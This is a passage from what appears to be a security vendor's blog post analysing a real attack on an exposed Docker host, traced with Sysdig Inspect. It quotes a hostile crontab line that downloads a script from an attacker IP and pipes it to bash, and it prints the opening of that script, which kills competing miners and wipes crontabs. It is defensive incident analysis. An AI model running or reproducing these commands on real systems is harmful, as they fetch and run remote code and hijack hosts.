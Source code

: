 You can see that at the time of the Sysdig Secure Notification, there was an additional container created along with corresponding docker events. Additionally, there were bursts of related filesystem and network activity.

We can zoom into a tighter period immediately surrounding the event and look for the http POST that created the container. In this case, we look at any system calls where the arguments contain the strings "POST" and "create":

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_create_container.png" alt="Sysdig Inspect Create Container" title="Sysdig Inspect Create Container" class="alignleft wp-image-4350" width="1200" height="750" />][3]

We can look at an overview of the docker containers that were running at the time:

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_containers.png" alt="Sysdig Inspect Containers" title="Sysdig Inspect Containers" class="alignleft wp-image-4350" width="1200" height="750" />][4]

Hey, what's that container `docker123321/mysql`? Let's look specifically at the processes run in that container:

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_container_processes.png" alt="Sysdig Inspect Container Processes" title="Sysdig Inspect Container Processes" class="alignleft wp-image-4350" width="1200" height="750" />][5]

It looks like it's writing to a file `/mnt/etc/crontab`. Let's look at all the writes involving `/mnt/etc/crontab` and their contents:

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_events.png" alt="Sysdig Inspect Write Events" title="Sysdig Inspect Write Events" class="alignleft wp-image-4350" width="1200" height="750" />][6]

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_contents.png" alt="Sysdig Inspect Write Contents" title="Sysdig Inspect Write Contents" class="alignleft wp-image-4350" width="1200" height="750" />][7]

### Attack Details {#attackdetails}

In this case, the attacker created a container that mounted `/etc/` from the host filesystem to `/mnt/etc/` inside the container. Then, by writing to files below `/mnt/etc/` inside the container, they can write to files below `/etc` on the host. In this case, they're adding the following line to `/etc/crontab`:

    * * * * * curl -s http://104.225.147.196:8220/logo3.jpg | bash -s

The intent is that every minute, cron will download a file `logo3.jpg` from `http://104.225.147.196:8220` and run it as a bash script. This allows them to jump from container-level access to host-level access. Unfortunately, their crontab entry is malformed--it's missing a `user` column. Cron complains about the bad crontab entry and won't run it:

    Nov  2 22:09:01 ip-172-31-11-33 cron[1107]: (*system*) RELOAD (/etc/crontab)
    Nov  2 22:09:01 ip-172-31-11-33 cron[1107]: Error: bad username; while reading /etc/crontab
    Nov  2 22:09:01 ip-172-31-11-33 cron[1107]: (*system*) ERROR (Syntax error, this crontab file will be ignored)

The attacker has been attempting this exploit every 5 minutes for the last week or so:

[<img style="max-width: 100%; height: auto;" src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_events.png" alt="Sysdig Secure Policy Events Timeline" title="Sysdig Secure Policy Events Timeline" class="alignleft wp-image-4350" width="1200" height="750" />][8]

If only their persistence was matched by their ability to write valid cron entries.

What's that bash script masquerading as `logo3.jpg`? Let's download it and find out:

    #!/bin/sh
    ps -fe|grep jaav |grep -v grep
    if [ $? -eq 0 ]
    then
    pwd
    else
    rm -rf /var/tmp/ysjswirmrm.conf
    rm -rf /var/tmp/sshd
    ps auxf|grep -v grep|grep -v ovpvwbvtat|grep "/tmp/"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "\./"|grep 'httpd.conf'|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "\-p x"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "stratum"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "cryptonight"|awk '{print $2}'|xargs kill -9
    ps auxf|grep -v grep|grep "ysjswirmrm"|awk '{print $2}'|xargs kill -9
    crontab -r || true && \

 [1]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_crontab_policy_event.png
 [2]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_overview.png
 [3]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_create_container.png
 [4]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_containers.png
 [5]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_container_processes.png
 [6]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_events.png
 [7]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_contents.png
 [8]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_events.png
 [9]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_secure_overview.png
 [10]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_wget_mm.png
 [11]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_events_detail.png
 [12]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_inspect_overview.png
 [13]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_1.png
 [14]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_2.png
 [15]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_3.png
 [16]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_periodic_fs.png
 [17]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_periodic_streams.png
 [18]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_connections.png
 [19]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_dns.png
 [20]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_single_conn.png